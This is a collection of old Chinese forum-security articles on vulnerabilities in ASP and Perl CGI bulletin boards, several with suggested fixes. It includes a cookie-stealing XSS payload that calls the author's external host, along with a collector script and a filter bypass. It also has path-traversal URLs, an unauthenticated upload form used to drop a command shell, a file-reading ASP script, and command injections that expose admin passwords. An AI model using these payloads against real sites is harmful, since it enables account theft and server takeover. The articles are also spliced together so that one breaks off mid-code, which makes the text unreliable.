翔浩论坛即 Xhsoft BBS 3000（维护者：翔浩网络技术，http://www.xhsoft.net/）、ASP 银河空间论坛（维护者：ASP 银河空间，http://www.asp50.com/）、网虫中国资讯论坛即 WormCN Forums 3000 II（维护者：网虫中国资讯网，http://www.wormcn.net/）是国内较流行的三个基于 ASP 的 BBS。前身是 Snitz Forums 2000 Version 3.1 SR4（http://forum.snitz.com），最先是网虫中国资讯网汉化并增加了一些功能重新发布为 WormCN Forums 3000 II，后又被 ASP 银河空间和翔浩网络技术改进并发布。其界面类似于 LB5000，功能较为强大。网上还有很多其他类似版本，如彬飞家园论坛（http://www.13148.com）等，但应用并不广泛，基本都是在 WormCN Forums 3000 II 的基础上修改的，也都存在类似问题。

上述几个论坛的主程序基本是相同的，也都存在同样的问题。在写这份漏洞报告之前我去了上面三个主页，下载了最新版本的论坛，并在维护者自己主页上使用的论坛中作了测试，问题都是存在的。鉴于这几个程序在国内使用之广，我不可能一一通知他们的管理员。希望看这份报告的人本着一个正义网民的心态，帮助我们通知这些管理员，并将本文发送给他们，而不要使用本文提到的技术去入侵，这是触犯法律的行为。

应一个朋友之托帮助检查一台 Windows 2000 服务器的安全性。服务器上运行了翔浩论坛，审查论坛代码时偶然发现存在几个问题。

- 1. `bbs/readme.asp`

这个文件是被设计用来显示“说明文件.txt”的，它的使命只有一个：

```asp
bbs/readme.asp?readme=说明文件
```

但因为程序中并未作任何限制，仅用以下语句限制了扩展名必须为“txt”：

```asp
file = request.querystring("readme") & ".txt"
```

因为而并未过滤“..”，也无其他安全限制。所以可以用来显示本机甚至内网上（使用 UNC 路径）的任何文本文件：

```asp
bbs/readme.asp?readme=../../../../foo
bbs/readme.asp?readme=\\secret\share\foo
```

- 2. `bbs/tools/whereami.asp`

这个工具可能是为了方便管理而写的，只有一行：

```asp
Request.ServerVariables("PATH_TRANSLATED")
```

将返回绝对路径：“此文件的绝对路径是：D:\webroot\cgi-bin\bbs\tools\whereami.asp”

- 3. `bbs/tools/http_asp.asp`

该脚本中使用了 perl：

```perl
sub viewSource( $ ) {
  use LWP::Simple;
  my ($URL) = @_;
  $Source = get($URL);
  if ($Source ne "") {
```

### 对动网先锋 ASP 论坛的安全性分析

大多数的网虫们上网，少不了登录论坛看看当日新闻或者大灌特灌一番，可也有些好事的网虫们，喜欢对论坛的安全进行小小的测试。而目前各式各样的论坛也层出不穷，有些论坛存在着上传图片的漏洞，有些则是贴图的问题等等。那么，这些论坛的安全性究竟如何呢？本文作者通过亲自测试，对动网先锋论坛进行了一次安全性检测，因此而有了这篇安全性测试报告，它不光让我们了解了动网论坛可能存在的安全漏洞，也可以让我们借鉴，在其他论坛的配置和设定上给我们以启示。

文／shocker

前段时间有同学想获取一个动网先锋论坛的管理员密码，所以我就对动网先锋论坛进行了一次安全性的测试。

### 1. 安装文件未删除的问题

这个问题可以说是老生常谈了，早些时候就有个什么黑客大联盟的论坛被这么黑掉。动网论坛的安装文件名为 install.asp，这个想来几乎是用过的人都知道，如果你在安装论坛完成后不删除该文件，那么，攻击者就能通过该文件重置你的论坛配置，达到攻击的目的。这个问题是由于用户使用不当所致，再次提出是为了引起大家注意。

### 2. 数据库问题

我们都知道 ASP 论坛大多数都是使用 Access 数据库，主要因为个人用户弄不到 SQL Server 的服务器，这就使攻击者在得到数据库路径和文件名的情况下对论坛数据库进行下载，下载后只需要用 Access 打开即可看到论坛的所有信息，包括所有用户密码。由于这个原因，建议大家一定要将论坛的 Access 文件改成一个没有规律的名字，如 3sdal9eklz9c0ad.mdb，像不像是 MD5 加密过？呵呵，不开玩笑，这样才可以避免被人下载。

### 3. 上传头像功能的安全隐患

这个安全隐患是由于微软 IE 的漏洞引起的，详细的原因可以参看 crazybird 的那篇漏洞说明。

对于攻击，当然是跨站脚本攻击，如果你不知道什么是跨站脚本攻击，那么看看《黑客防线》第 3 期刊登的《跨站脚本攻击详解》这篇文章！这里举个例子，首先新建一个文本文件，如 shocker.txt，内容如下：

```html
<script>window.open('http://shocker.soage.com/css.php?'+document.cookie)</script>
```

shocker.soage.com 是我自己的网站，而 css.php 是收集 cookie 的程序。我的程序代码如下：

```php
<?php
#### 跨站脚本攻击
# <script>window.open('http://shocker.soage.com/css.php?'+document.cookie)</script>
$info = getenv("QUERY_STRING");
if ($info) {
  $info = urldecode($info); // 这里将收到的 cookie 进行 url 解码
  $fp = fopen("chen.txt","a"); // 这里 chen.txt 你可以随便命名
  fputs($fp,"$info\n");
  fclose($fp);
}
header("Location: http://www.gxboy.com/pt");
// 呵呵，转到 mkill 那里，许多照片呀……
?>
```

你也可以用 CGI 的收集 cookie 程序，很好写，这里就不多说了。如果你不知道，可以来 www.china4lert.org 参看 superdao 以前发表过的文章，里面都有提到。

将 shocker.txt 保存后文件改名为 shocker.gif，通过上传头像的功能传到网站上，接下来就是让别人看到这个伪装成图片的文本了。

### 4. 贴图标签的问题

经我测试，除了 LB5k 和 phpBB 的贴图标签没有问题以外，其他的论坛贴图标签都有问题，主要是正则表达式写得不好， LB5k 的 `[img]` 标签转换写得就不错，如下：

```text
$signature =~ s/\[img\]\s*(http|https|ftp):\/\/([^\s?]+)\s*\[\/img\]//isg;
```

这样才能防止攻击者提交诸如 `javascript:alert(document.cookie)` 之类的东西。而动网的贴图标签就存在着问题，而且通过贴图标签的跨站脚本攻击比上传图片的跨站脚本攻击要容易得多。可以在你的签名或帖子里加入：

```html
[img]javascript:window.open('http://shocker.soage.com/css.php?'+document.cookie);[/img]
```

测试发现，以上代码并没能起到跨站脚本攻击的作用，这是为什么呢？由于动网论坛把 `http://` 这个地方当成图片地址了，结果刚才提交的代码被分成了两段 `javascript:window.open(` 和 `http://shocker.soage.com/css.php?'+document.cookie);`，以至于我们提交的代码丧失了功能。

难道就不能攻击了吗？当然不是，我们可以换一种方式提交，代码如下：

```html
[img]javascript:window.open('&#x68;tt&#x70;://shocker.soage.com/css.php?'+document.cookie);[/img]
```

看到区别了吧？这段代码把 http 中的 h 和 p 转换成了 ASCII 码 HTML 格式 `&#x68;` 和 `&#x70;`，提交后，论坛并没有找到 http，所以我们提交的代码就不会分家了，达到了攻击的目的。

以上就是我对动网论坛的一点分析，其中前两点问题不大，一般用户都可以修正，第三点只存在于动网 4.0 及以下版本中，而第 4 点在最新版 5.0 中也存在问题。我测试过，黑客防线的论坛也存在着这种问题，不过由于密码经过了 crypt 加密，所以还是比较安全的。不过有耐心还是可以对抓到的加密过的密码进行暴力破解的。还有许多论坛存在着这种问题，包括 CGI 和 PHP 论坛。

最后我觉得应用社会工程学和跨站脚本攻击配合，可以很好地达到攻击并不被人怀疑的目的。

### 其他功能安全分析

```asp
return true;
...
else
...
return false;
```

程序使用了 **LWP::Simple** 模块，是用来访问 URL 的，所以可能被用来访问 IP 受限制的本机或内网 URL，但此程序在测试时并不能正常运行，而且主机上必须安装 Perl，故对安全的影响不能完全肯定。关于 **LWP::Simple** 的用法，可以这样测试：

```bash
perl -MLWP::Simple -e 'getprint "http://www.whitecell.org"'
```

#### 4、bbs/admin_upload.asp 和 bbs/admin_uploadengine.asp

本来是设计用于方便管理员上传文件的，但并无身份认证措施。仅在与 **bbs/admin_upload.asp** 交互时，限制仅管理员才有选择文件目录的界面，但 **bbs/admin_uploadengine.asp** 中并无任何限制，所以这种限制是可以被绕过的。加上没有过滤“..”，所以可以上传 ASCII 文件到任何有存取权限的目录。因为没有使用组件，故只能是 ASCII 文件。

测试方法：把下面的代码中的“http://foo.asp.host/bbs/”改为论坛实际所在的路径并存为 HTML 文件即可。

```html
<form enctype="multipart/form-data" action="http://foo.asp.host/bbs/admin_uploadengine.asp" method="post" name="fileup">
<input name="folder" type="hidden" value="admin">
<input name="reply_id" type="hidden" value="1">
<input name="topic_id" type="hidden" value="1">
<input name="member_id" type="hidden" value="0">
上传文件：
<input name="file1" type="file" size="20" value="">
<p>
存放目录：
<input name="uploaddir" type="text" value="">
<input name="upload" type="submit" value="开始上传">
</form>
```

- 5、admin_poll.asp 等管理程序也存在与上面类似的无身份认证问题。

#### 6、bbs/pop_upload.asp

用于论坛用户上传文件，对扩展名做了限制。但无身份认证措施，用户不必登录也可向论坛上传文件，但一般对安全影响并不大。

**危害：**

我用 **bbs/admin_uploadengine.asp** 向朋友的机器上传了一个利用 **Wscript.Shell.Run** 运行系统命令的 ASP 脚本，这样我就可以以 **IWAM_MachineName** 的身份运行系统命令。系统对 **IWAM_MachineName** 默认是全局可读的，可以下载 SAM，可以向根目录写文件，可以改主页，可以得到论坛数据库所在的路径……

虽然 **Wscript.Shell.Run** 可能由于主机的一些安全设置不一定可以运行成功，但至少可以用 **FileSystemObject** 来查找、读取、拷贝、删除文件。这是一个读取文本文件的例子，可以用来显示 ASP 源代码：

```asp
<% 'usage cat.asp?cat=c:\webroot\bbs\conn.asp %>
<%
filename = Request("cat")
set fs = CreateObject("Scripting.FileSystemObject")
'##建立文件对象
Set catfile = fs.OpenTextFile(filename, 1, False)
do while not catfile.AtEndOfStream
file = file + catfile.readline + "<br>" + chr(13) + chr(10)
'##每行结尾加<br>换行
loop
%>
<%=file%>
<%
catfile.Close
set fs = nothing
%>
```

### 解决方案：

- 1、对于 **bbs/tools/whereami.asp**、**bbs/readme.asp**、**bbs/tools/http_asp.asp** 这些并没什么用的程序可以删除或改为其他名字。
- 2、对于 **bbs/admin_upload.asp** 和 **bbs/admin_uploadengine.asp** 等管理程序如果不需要使用可以删除，如果需要可自行修改。在程序前加一行：

```asp
<% If Session(strCookieURL & "Approval") = "15916941253" Then %>
```

其中“15916941253”最好改为其它数字，例如改为：

```asp
<% If Session(strCookieURL & "Approval") = "71847891818" Then %>
```

并将其余的管理程序中的“15916941253”也改为相同的数字。注意：admin_login.asp 中的

```asp
<% Session(strCookieURL & "Approval") = "15916941253" %>
```

也要改，否则无法使用任何管理程序。

- 3、作如下权限设置：删除 IWAM_MachineName 对所有目录的写权限，对 Web 目录则完全不给任何权限，仅给予对数据库文件的读写权。给予 IUSR_MachineName 对 Web 目录读权限及对数据库文件的读写权。如果使用上传功能，则给予 IUSR_MachineName 存放上传文件的文件夹的读写权。这个权限设置对其他论坛或聊天室之类也适用。
- 4、如有可能，与软件维护者联系。
- 5、避免数据库文件被下载的方法：这些论坛都提供了 MySQL 和 MSSQL 的连接方式，如有可能尽量使用 SQL 的连接方式。如果一定要用 Access，可以这样：打开 Internet 信息服务管理器，选中数据库文件，单击右键，点“属性”，在“文件”页取消“读取”选项。这样即使入侵者得到了数据库的路径，下载时也只能得到一个“403.2”错误。当然还可以在“文件安全性”页通过限制允许访问的 IP 等来保护数据库。

### 后记：

我下载了原始版本的 Snitz Forums 2000 Version 3.1 SR4 和 Snitz Forums 的其他版本，却并没发现存在上面所说的安全问题，Snitz Forums 自己的论坛（http://forum.snitz.com/forum/）也没有这些问题。但我测试了国外很多使用 Snitz Forums 的论坛——包括意大利、德国等——却是存在这些问题的，显然这些程序并非汉化作者有意加上去的，可能是某个第三方工具包。

---

> 编者按：CGI 的攻防策略一直为广大网络安全界人士及网友们津津乐道，当然更为黑客们所关注；本文视点聚焦在 CGI 领域著名的 LB5K，作者深谙 Perl CGI 及 LB5K 的安全之道，熟悉其漏洞所在及特点，并着重结合几个主要典型漏洞实例进行深入分析，对 CGI 编程及安全问题有研究或感兴趣的读者朋友可仔细研读。

### LB5K 安全机制

LB5K 是国内最流行的 CGI 程序之一，是在 Ikonboard 的基础之上改进的，目前最新版本是 LB5000II v1103，可以从 http://www.leoboard.com/cgi-bin/lbdown.cgi?ver=LB5000II 下载。

乍看起来，作者似乎已经改正了前段时间的所有 BUG，这包括以前 Win32 平台创建后门的问题和后来跨平台的“search.cgi”问题，但是实际情况好象并不是这样。下面我将比较深入地剖析一下 LB5K 存在的几大功能漏洞，当然我也会提出对应的临时解决方法。

下面我只以 Win32 平台为例介绍一下，而且只是以 Perl CGI 方式介绍，至于 Perl ISAPI 方式请自己参考相关文档。

**声明：** 本文只是出于教育的目的，请不要利用本文的内容进行任何破坏，否则后果自负！

### ## [用户注册功能漏洞]

请先阅读《怎样利用 Perl CGI 和 LB5K 的缺陷攻占远程服务器》（可在本期光盘相关中找到），再看应该怎么解决这个问题的呢？我们看一下相关代码：

```perl
[register.cgi] Lt85~Lt89:
$bannedmember = "yes" if (($inmembername eq "system")||($inmembername eq "admin")||($inmembername eq "root")||($inmembername eq "copy")||($inmembername eq "require")||($inmembername eq "rename")||($inmembername eq "dir"));
if ($bannedmember eq "yes"){
print header(-charset=>gb2312), &error("[用户注册]&对不起，你不允许注册，请联系论坛管理员以便解决");
}
```

作者过滤了“system”和一些其它帐号，且不说过滤的帐号是不是全面，单从这种过滤的方法来看，就很容易绕过。不让注册“system”，我们可以注册“system%20”嘛，测试一下：

```text
http://www.notfound.org/cgi-bin/members/system.cgi/dir
C:\Inetpub\cgi-bin\members 的目录
2001-11-05 16:29 <DIR>
2001-11-05 16:29 <DIR>
2001-11-05 16:24 184 system.cgi
1 个文件 184 字节
2 个目录 1,939,226,624 可用字节
```

#### 临时解决方法：
- 限制帐号密码只能为字母数字组合，且长度为 3 到 8 位。

### ## [发文章功能漏洞]

好了，我们假设已经对帐号密码进行了限制，下面我们来看发文章功能有什么问题。假设用户 system 已经登录进入系统，下面他要发一篇文章：

```text
http://www.notfound.org/cgi-bin/post.cgi?action=new&forum=1
主题标题：@ARGV #
内容：thiz is a test!
```

提交。我们来看一下：

```text
http://www.notfound.org/cgi-bin/forum1/1.thd.cgi/dir
C:\Inetpub\cgi-bin\forum1 的目录
2001-11-05 17:10 <DIR>
2001-11-05 17:10 <DIR>
2001-11-05 15:24 150 .htaccess
2001-11-05 17:10 72 1.pl
2001-11-05 17:10 70 1.thd.cgi
2001-11-05 15:24 85 foruminfo.cgi
2001-11-05 15:24 index.html
2001-11-05 17:10 lastnum.cgi
2001-11-05 17:10 list.cgi
7个文件 453字节
2个目录 1,938,771,968 可用字节
```

我们看一下“post.cgi”的相关代码：

```perl
[post.cgi] 431-432
elsif ($intopictitle eq "") { &error("发表新主题&必须输入主题标题！") }
elsif (length($intopictitle) > 32) { &error("发表新主题&主题标题过长！") }

[post.cgi] 436-444
$intopictitle =~ s/<[^>]*>//isg;
if (($inpost eq "") && ($addtime eq "")) {
  $intopictitle_ = "无内容";
}
$tempintopictitle = $intopictitle;
$tempintopictitle =~ s/"/&quot;/g;
$tempintopictitle =~ s/&nbsp;/ /g;
$tempintopictitle =~ s/ //g;
if ($tempintopictitle eq "") { print header(charset=>gb2312); &error("发表新主题&主题标题有问题！") }
undef $tempintopictitle;
```

显然过滤得太少了！

#### 临时解决方法：
- 文章标题和内容应该过滤或者转换某些特殊字符，包括“@”、“#”、“$”、“`”、“'”、“;”等。

### ## [加好友功能漏洞]

加好友也有问题？是的！假设当前用户为 thiz，我们进入如下 URL：

```text
http://www.notfound.org/cgi-bin/friendlist.cgi
```

增加好友“system”和“dir”，如果没有该注册用户，你自己注册一个。然后，我们来看一下：

```text
http://www.notfound.org/cgi-bin/memfriend/thiz.cgi
C:\inetpub\cgi-bin\memfriend 的目录
2001-11-05 17:54 <DIR>
2001-11-05 17:54 <DIR>
2001-10-31 08:54 204 index.html
2001-11-05 17:54 13 thiz.cgi
2个文件 217字节
```

#### 临时解决方法：
- 目前尚无简单过滤方案，建议对输入参数进行严格合法性检查。

### ## [发消息功能漏洞]

发消息也是存在安全问题的，利用方法也不难（如果你对 Perl 比较熟悉的话）：

- 收件人：`print`
- 标题：`；`
- 内容：`system @ARGV #`

OK，提交！假设你当前是用户“thiz”，那么输入下列 URL 将执行“dir”命令。

```text
http://www.notfound.org/cgi-bin/messages/thiz/out.cgi?dir
C:\inetpub\cgi-bin\messages 的目录
2001-11-12 15:35 <DIR>
2001-11-12 15:35 <DIR>
2001-10-31 08:54 204 index.html
2001-11-12 15:29 38 print.out.cgi
2个文件 242字节
2个目录 1,854,840,832 可用字节
```

#### 临时解决方法：
- 过滤或编码标题和内容中的特殊字符，如“;”、“#”等。

### ## [投票功能漏洞]

问题和“发文章功能漏洞”基本类似，不同之处在于这时产生了两个文件，扩展名为“.pl”和“.cgi”，危害性更大。

#### 临时解决方法：
- 过滤或编码“投票主题”、“投票项目”和“投票选项说明”中的特殊字符“;”、“#”等。

LB5K 存在的功能漏洞基本上就是这么多了。虽然这里提到的问题影响范围比较小，而且可以通过正确的设置目录权限来避免，但是程序本身也应该做一些防御工作。

程序开发者应该尽量想得全面一些，程序使用者也应该在使用程序之前检查一下安全性。等到被别人黑了主页再检查，纯粹是无聊至极！权当拓展思路好了。

### 窥探 YUZI 的 BBS3000 社区安全性

#### 基本漏洞测试

YUZI 的 BBS3000 被不少国内个人站点和企业站点用来作为网友交流的论坛，但用户很少去探测这论坛的安全性，使用者很大程度上信任作者，而实际上，这些免费的版本和汉化修改论坛，往往存在一些致命的漏洞。本文的目的在于揭示这类论坛不为人知的漏洞，让大家更好地使用这类论坛，并且保证自身资料的隐蔽和服务器的安全。

测试版本：bbs3000 v4.11，可以去 http://www.yuzi.net/ 下载。

系统平台：Windows 2000 ADV Server + SP3 + IIS 5.0 + ActivePerl 5.6.1.626

应用程序映射：perl.exe %s %s，动作：GET、HEAD、POST 或者：perlIS.dll，动作：GET、HEAD、POST

下面便开始测试。

### 一、用户名为 dir 的漏洞

1. 采用应用程序映射：`perl.exe %s %s`。在站点建立一目录（或者虚拟目录）bbs3000，按论坛作者提供的说明书，默认安装 BBS3000 v4.11 版本。我们注册一用户名为 `dir`，密码为 `system`，信箱为 `#badboy@badclub.org`（任意信箱都可以），然后我们在 IE 地址栏处输入：`http://192.168.0.1/bbs3000/yhzl/dir.cgi`

返回页面显示：
```
F:\new\bbs3000\bbs3000 的目录
2002-01-16  19:26    <DIR>          .
2002-01-16  19:26    <DIR>          ..
2002-01-16  22:42          43,247   bbs.cgi
2002-01-16  22:47          50,934   cjyh.cgi
2002-01-16  22:43          38,551   bbs1.cgi
2002-01-16  22:48           6,401   cookie.cgi
2002-01-16  22:42           2,138   affiche.cgi
2002-01-16  22:43          22,434   bbs2.cgi
（以下略）
34 个文件        417,611 字节
15 个目录    1,830,944,768 可用字节
```

2. 采用应用程序映射：`perlIS.dll`。得到的显示页面为：
`F:\new\bbs3000\bbs3000\yhzl\dir.cgi: script produced no output`

测试解释：在应用程序映射中，一个扩展名只能由一个程序去映射。在采用 `perl.exe` 时，BBS3000 存在查看网站目录和文件的漏洞；在采用 `perlIS.dll` 时，则有暴露网站在服务器上的绝对地址的漏洞。

### 二、用户名为 system 的漏洞

1. 采用应用程序映射：`perl.exe %s %s`。注册一用户名为 `system`，密码为空格键（或者密码为 `system`），信箱为 `"dir c:\#@badclub.org"`，然后我们在 IE 地址栏内输入：`http://192.168.0.1/bbs3000/yhzl/system.cgi`

返回的页面显示为 `C:\` 的目录。

当把信箱修改为 `@ARGV##badboy@badclub.org`，然后我们在 IE 地址栏内输入：`http://192.168.0.1/bbs3000/yhzl/system.cgi?dir%20d:`，返回的页面会显示 D 盘目录。

如果密码为其他字符时，则可能显示脚本无输出。我们还可以这样测试用户名为 `system` 的情况，密码仍然为空格键（或者密码为 `system`），但把信箱修改为 `@ARGV##badboy@badclub.org`，然后在 IE 地址栏内输入：`http://192.168.0.1/bbs3000/yhzl/system.cgi?dir%20d:`，页面将直接返回执行结果。

2. 采用应用程序映射：`perlIS.dll`。用户名为 `system`，密码为空格键（或者密码为 `system`），信箱为 `dir c:!#@badclub.org`，执行后同样会暴露路径或产生其他异常。

### 三、用户名为：字符的情况

1. 采用应用程序映射：`perlIS.dll`。注册一用户名为 `;` 字符，密码为 `1`，信箱为 `rename "badboy.cgi" "badboy.txt";#@badclub.org`（这里假设 `badboy` 为该论坛的社区区长，也就是该论坛最大权限的用户），然后我们在 IE 地址栏内输入：`http://192.168.0.1/bbs3000/yhzl/;.cgi`

返回的页面显示：`"F:\new\bbs3000\bbs3000\yhzl\;.cgi" script produced no output`

后面的就是关键了，你再输入这样的地址看看：`http://192.168.0.1/bbs3000/yhzl/badboy.txt`

返回的页面显示为：`badpassbadboy http://192.168.0.1 2002-01-16`

显示的内容前面就是密码、用户。天啊，事情怎么那么容易呀！！经测试，用户名为 `system`，密码为空格键（或者为 `system`），信箱为 `rename "badboy.cgi" "badboy.txt";#@badclub.org` 的时候，步骤和上面一样，同样可以获得相同的结果。

2. 采用应用程序映射：`perl.exe %s %s`。用户名为 `;` 字符，密码为 `1`，信箱为 `rename "badboy.cgi" "badboy.txt";#@badclub.org`。在 IE 地址栏内输入：`http://192.168.0.1/bbs3000/yhzl/*.cgi`，返回的页面显示 CGI Error。

### 论坛源码分析和安全设置

### 一、论坛源码分析

我们先打开 `yhreg.cgi` 这个文件来看看，找到控制注册部分的代码：

```perl
sub reguser {
    &origin;
    $username =~ s/\s//g;
    if($passwordok ne '0'){ $userpsd=$time; }
    if($username =~ m/[^#&*\=+\\|,\'"\^<>?]/){ &errorview("名字中不能含有特殊字符!"); }
    if($userpsd =~ m/[^#&*\=+\\|,\'"\^<>?]/){ &errorview("密码中不能含有特殊字符!"); }
    if(($userpsd eq "")||($username eq "")){ &errorview("请填写您的名字和密码!"); }
    if(($mail =~ /.*@.*\..*/)){ &errorview("您的Email输入错误!"); exit; }
    foreach (@badmail){ $mail =~ s/$_//g; }
    if($mail eq "" || $Cookies{badren} eq '1'){ &errorview("您的Email被禁止注册!"); }
    ($ip1,$ip2,$ip3,$ip4)=split(/\./,$from); $badi="$ip1.$ip2.$ip3";
    foreach $badip (@badip){ if($badip eq $badi){ &errorview("对不起, 此段IP被禁止注册资料!"); exit; } }
    if(length($username)>12){ &errorview("您的名字不能大于12个字符!"); }
    if(length($comment)>400){ &errorview("您的签名不能大于200个汉字!"); }
    if(length($jiao)>400){ &errorview("您的简介不能大于200个汉字!"); }
    $comment=~s/\[sound\]//isg;
    $comment=~s/\[\/sound\]//isg;
    $comment = &ybbcode1($comment);
}
```

从它的程序中，我们可以看到用户名和密码所过滤的字符明显不足，信箱的过滤也存在比较大的安全隐患。在用户修改文件 `yhxiu.cgi` 中也存在同样的问题：

```perl
sub reguser{
    &origin;
    if($newpsd =~ m/[^#&*\=+\\|,\'"\^<>?]/){ &errorview("密码中不能含有特殊字符!"); }
    if(($FORM{'userpsd'} eq "")||($username eq "")||($mail eq "")){ &errorview("名字、密码、信箱必须要填写的，请重新输入!"); }
    if(!($mail =~ /.*@.*\..*/)){ &errorview("您的Email输入错误!"); exit; }
    if(length($comment)>400){ &errorview("您的签名不能大于200个汉字!"); }
    if(length($jiao)>400){ &errorview("您的简介不能大于200个汉字!"); }
    if(length($city)>12){ &errorview("您填写的省份不能大于12个字符!"); }
    $comment=~s/\[sound\]//isg;
    $comment=~s/\[\/sound\]//isg;
}
```

我们查看它的用户资料保存的顺序又依此为密码、用户名、信箱等等。因此，我们就可以通过过滤的不足，精心构造一个能够执行 `cmd.exe` 的 CGI 代码。

- 一般的安全文章推荐过滤的字符有：`& , ' " | * ? ~ < > ^ ( ) [ ] { } $ \n \r \t \0 # ../`
- 除了特殊字符的过滤，我们还要注意过滤一些命令形式的用户名和密码，比如说：`system`、`exec`、`copy`、`dir` 等。

### 二、过滤的重要性

由于过滤的不足和保存用户资料的方式不对，从而使得入侵者可以利用各种函数调用命令。对一种编程语言而言，在设计这种语言的时候，一般情况下是不会产生安全隐患的，在很多情况下，这种安全隐患是由程序员不小心或者对安全方面的疏忽造成的。一个软件整体的安全性仍然大部分依赖于这个软件制造者的知识面、理解能力和他的安全意识。

程序的编写者不能过多地要求用户的安全配置能力，应该把安全的重点放在自己所编写的程序代码中，能够做到最大的傻瓜化，即用户不需要做太多的事就能安全地使用自己的作品，这是每个编程人员必须注意的。

Perl 脚本产生安全问题的一个很大的来源是没有经过正确确认（或根本就没有确认）的用户的输入。我们不要指望每个注册用户都会认真填写注册信息，要提防某些入侵者发送给你假的输入。不正确的用户输入，如果没有经过确认就被认可并使用，将会导致许多方面出错。最常见和明显的错误是，没有经过确认就去执行有用户自定义参数的其他程序。

Perl CGI 执行一个外部程序和一个系统命令的方法是通过调用 `exec()` 函数。当 Perl 遇到一个 `exec()` 语句的时候，它会审视 `exec()` 被调用处的参数，然后启动一个新的进程来执行这条指定的命令语句。Perl 从不会返回调用 `exec()` 原来的那个进程。

和 `exec()` 相似的函数是 `system()`。`system()` 的运行方式非常像 `exec()`。两者最大的区别是：Perl 会首先从父进程中分叉出一个子进程，子进程作为提供给 `system()` 的一个参数。父进程等到子进程运行结束后，再接着运行程序的其余部分。

传递给 `system()` 的参数是一个列表——列表里的第一个元素是要被执行的这个程序的程序名，其他元素是传给这个程序的参数。然而，如果只有一个参数的话，`system()` 的执行方式会发生差异。在那种情形下，Perl 将会扫描这个参数，看它是不是包含任何 shell 转换字符。如果有的话，它就要把这些字符通过 shell 来解释，因此产生一个 shell 命令行来工作。不然，Perl 会将字符串拆成单词然后调用效率更高的 C 库函数 `execvp()`，这个函数不能理解特殊的 shell 字符。

因此，BBS3000 在 Windows 2000 下，在 system 用户资料的文件 `system.cgi` 中，我们可以构造成 `systemsystem @ARGV##badboy@badclub.org`。在这个目录能够执行 CGI 程序的情况下，我们就可以通过 URL 赋予它执行的命令，如 `http://192.168.0.1/bbs3000/yhzl/system.cgi?dir`，或者像 `dir` 用户的用户资料构造成 `system dir #badboy@badclub.org`，实际上也是一条简单的函数 `system()`。

过滤用户输入的一个通常方法就是过滤任何不需要的转换字符和有可能函数命令问题的数据。例如，我们可以在 BBS3K 的用户注册和用户资料修改中过滤用户名、密码、信箱中的非法字符。一旦看见非法的字符，就让程序运行失败，这种策略被称为“黑名单”。这种策略就是如果某东西没有明确禁止，那它肯定是好的。黑名单的过滤策略最重要的一点是它非常难保持过滤的完整性。你也许会忘掉过滤某一特定字符，或者你的程序随不同的转换字符集合转到一个不同的 shell 中。一个更好的策略是“白名单”，只过滤合法的输入。我们在无法完全知道该过滤哪些非法字符时，可以通过验证所输入的字符必须满足我们同意输入的字符，比如用户名和密码只能是数字和英文字母的组合，如果不是，则过滤掉。

在《Perl CGI 编程安全点滴》（作者：backend）一文中，backend 谈到了几个很重要并且是很容易忽略的过滤问题，很值得 CGI 程序编程人员学习。

本文只测试在 Win2K 情况下由于 BBS3K 过滤的不足引起的安全隐患。同样，在 UNIX 中，或者其他的平台下，由于过滤的不足，也会引起类似的安全问题，只是入侵的方式有些不同，有兴趣者可以测试。

### 三、BBS3K 在 Windows 2000 下使用的安全建议

1. 修改用户资料存放地址和文件格式，使别人不容易猜到你的存放目录的目录名。
2. 限制访问用户资料目录，把 YHZL 目录执行许可设置为无（一般空间租用者只能求助于服务器管理人员）。
3. 加强字符过滤，包括用户名和信箱特殊符号的过滤，信箱字节长度的限制，特殊用户名的注册。
4. 重新调整用户资料的排列，把用户输入的数据和系统产生的分别隔开，使之很难构造一条能够执行的命令语句。
5. 限制 everyone 使用 `cmd.exe`（这条比较难做到，尤其是提供免费使用空间的站点，空间租用者在安装 BBS3K 时本身就必须调用 `cmd.exe`，在管理论坛时也许用到）。

### UT（UltraThreads v5.07）论坛漏洞分析

文／shocker

闲来无事，便看看 UT 论坛的源代码。本来想先用本机调试一下，进行测试，结果不知道为什么 ActivePerl 装完了 DBI 模块以后，UT 还是不能安装，所以只能上网看看别人装好的 UT 论坛了。在 analysis 的指点下，终于装上了 DBI 模块，原来要直接在 PERL->BIN 目录下输入 `PPM INSTALL DBI` 才能进行安装，而不能在 `PPM>` 提示符下进行安装，因为这样安装完的模块不完整。在此，给没装上的人一点提示。

首先，看看注册页面，是这个文件 `user_register.cgi`，然后再调用 `user_register_x.cgi` 执行用户提交的信息。我们来看一下 `user_register_x.cgi` 文件是怎么写的：

```perl
# Check if it is the first user (= admin)
$query = "SELECT COUNT(*) FROM ut_users";
$sth = query($query);
my ($userNum) = $sth->fetchrow_array();
$sth->finish;
my $admin = $userNum ? 0 : 1;
```

在用户注册的时候，它统计用户数，如果不是 0 的话，就会使 `$admin` 这个变量等于 0，也就是说不是管理员，但是我们也因此知道了，判断是否管理员是由 0 和 1 区分的。为保险起见，我又看了一下它的用户表结构，果然有一个字段是 `admin`，而且默认值是 0。也就是说，普通用户的 `admin` 字段的值都是 0，看来要从此处下手。

继续找……我又到用户属性修改页面 `user_options.cgi`，看到有不少设置，查看了一下源代码，用文本编辑器搜索了一下 “post”，发现用户属性修改表单提交给 `user_options_x.cgi` 执行。那就让我来分析一下 `user_options_x.cgi` 这个文件吧。经过分析发现，有一个重大漏洞可以使用户提交非法信息提升自己为管理员。

首先，我们来看看这个文件是怎么写的：

```perl
# Get CGI parameters（得到用户提交的属性修改信息）
my $cgi = new UTCGI;
$cgi->truncated and userError($lng{'errAttSize'});
my $userid = int($cgi->param('id'));
my $password = $cgi->param('password') || '';
my $passwordV = $cgi->param('passwordV') || '';
my $email = $cgi->param('email') || '';
my $emailV = $cgi->param('emailV') || '';
my $realName = $cgi->param('realName') || '';
my $homepage = $cgi->param('homepage') || '';
my $occupation = $cgi->param('occupation') || '';
my $hobbies = $cgi->param('hobbies') || '';
my $location = $cgi->param('location') || '';
my $icq = int($cgi->param('icq')) || 0;
my $oicq = int($cgi->param('oicq')) || 0;
my $userFace = $cgi->param('userface') || 'none.gif';
my $userDesc = $cgi->param('userdesc') || '';
my $fontFace = $cgi->param('fontFace') || $cfg{'fontFace'};
my $fontSize = int($cgi->param('fontSize')) || $cfg{'fontSize'};
my $fontSizeUnit = $cgi->param('fontSizeUnit') || $cfg{'fontSizeUnit'};
my $hideEmail = $cgi->param('hideEmail') ? 1 : 0;
my $notify = $cgi->param('notify') ? 1 : 0;
my $tempLogin = $cgi->param('tempLogin') ? 1 : 0;
my $dispSign = $cgi->param('dispSign') ? 1 : 0;
